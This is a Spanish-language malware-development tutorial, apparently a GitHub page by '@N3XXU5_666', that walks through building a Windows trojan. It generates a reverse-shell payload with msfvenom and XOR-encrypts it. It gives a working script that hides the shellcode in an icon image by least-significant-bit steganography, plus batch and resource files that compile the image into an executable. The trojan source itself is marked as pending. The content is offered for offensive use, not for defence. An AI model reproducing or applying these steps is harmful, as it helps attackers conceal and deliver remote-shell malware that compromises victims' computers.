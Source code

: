 ## DESARROLLO DE MALWARE BY @N3XXU5_666

- Descarga de imagen .ico
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o pornhub.ico
```

- Payload or Shellcode:
```bash
msfvenom -p windows/x86/shell_reverse_tcp LHOST 0.0.0.0 LPORT 0000 -f raw -o shellcode.bin
```

- File xor.py
```python
import sys

def xor(inputData, encKey):

  encKey = str(encKey)
  l = len(encKey)
  outStr = b""

  for i in range(len(inputData)):
    cde = inputData[i]
    ck = encKey[i % len(encKey)]
    outStr += chr(cde ^ ord(ck)).encode('latin-1')

  return outStr

if name == "main":

  ENCRYPT_KEY = "wubbalubbadubdub"
  try:
    plainText = open(sys.argv[1], "rb").read()
    cipherText = xor(plainText, ENCRYPT_KEY)
    open("encrypted.bin", "wb").write(cipherText)
  except:
    print(f"Usage: python3 {sys.argv[0]} <payload file>")
    sys.exit(1)
```

- Encrypt payload :
```bash
python xor.py shellcode.bin #Crea un archivo llamado encrypted.bin
```

- file lsb.py
```python
from PIL import Image
from pydub import AudioSegment
import numpy as np
import wave
import sys

def printHelp():

  print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
      """)

def hideBits(orig, msgFile, dest):

  img = Image.open(orig,'r')
  width, height = img.size
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  message = open(msgFile, "rb")
  message = message.read()
  message += b"$end_of_message$"
  b_message = ''.join([format(i, "08b") for i in message])
  req_pixels = len(b_message)
  if req_pixels > total_pixels:
    print("ERROR: Need larger file size")
  else:
    index = 0
    for p in range(total_pixels):
      for q in range(0,3):
        if index < req_pixels:
          array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
          index += 1
    array = array.reshape(height, width, n)
    enc_img = Image.fromarray(array.astype('uint8'), img.mode)
    enc_img.save(dest)
    print("\nHidden message successfully!\n")

def extract(path):

  img = Image.open(path, 'r')
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  hidden_bits = ""
  for p in range(total_pixels):
    for q in range(0,3):
      hidden_bits += (bin(array[p][q])[2:][-1])
  hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
  message = b""
  for i in range(len(hidden_bits)):
    if message[-16:] == b"$end_of_message$":
      break
    else:
      message += chr(int(hidden_bits[i],2)).encode('latin-1')
  dstFile = open("message.bin", "wb")
  if b"$end_of_message" in message:
    dstFile.write(message[:-16])
    print("\nUnhidden message successfully!\n")
  else:
    print("\nNo Hidden Message Found\n")

if name == "main":

  if len(sys.argv) != 5 and len(sys.argv) != 3:
    printHelp()
    sys.exit(1)
  if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
    printHelp()
    sys.exit(1)
  if sys.argv[1] == "-hide":
    if len(sys.argv) != 5:
      printHelp()
      sys.exit(1)
    hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
  else:
    if len(sys.argv) != 3:
      printHelp()
      sys.exit(1)
    extract(sys.argv[2])
```
- Inyecta el shellcode en la imagen
```bash
python3 -hide pornhub.ico shellcode.bin pornhublsb.ico
```
- Extrae el shellcode de la imagen
```bash
python3 -extract pornhublsb.ico # Crea archivo message.bin
```
#### REFERENCIAS :
| [SHELLCODES](http://shell-storm.org/shellcode/index.html) | Shellcodes pre-creados |
| [DONUT](https://github.com/TheWover/donut) | Convierte codigo cpp compilado a shellcode |

## SCRIPTS EN BATCH PARA COMPILAR TROJANO
Proceso desde SO Windows
- Compilador (VS-code) FILE: compile.bat
```
@ECHO OFF

rc resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /0x /MI /W0 /GS- /DNDBUG /Tp trojan.cpp /Link /OUT:resources.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```
#### REFERENCIAS :
[COMPILER-FLAGS](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options-listed-alphabetically?view=msvc-170) | Banderas de compilacion. Se pueden modificar en base al compilador a usar.

- resources.rc
```
#include "resources.h"

MY_ICON RCDATA pornhublsb.ico
```
- resources.h
```
#define My_ICO 200
```
- trojan1.cpp
```
Pendiente para la siguiente sesion de sabado 10/12/2022
```
- Proceso de compilacion desde el x64 Native Tools Command Prompt for Visual Studio
Los native tools ya vienen instalados al instalar [FLARE-VM](https://github.com/mandiant/flare-vm) | Software de Analisis de malware
```
compile.bat 
```

#### Follow me on [Socials Network](https://wlo.link/@Ivam3)
#### Follow at N3XU5 on [Telegram](https://t.me/N3XU5_666) & [YouTube](https://www.youtube.com/@N3XU5_666)
#### JOIN to the next [LIVESTREAM](https://t.me/Ivam3byCinderella?livestream)




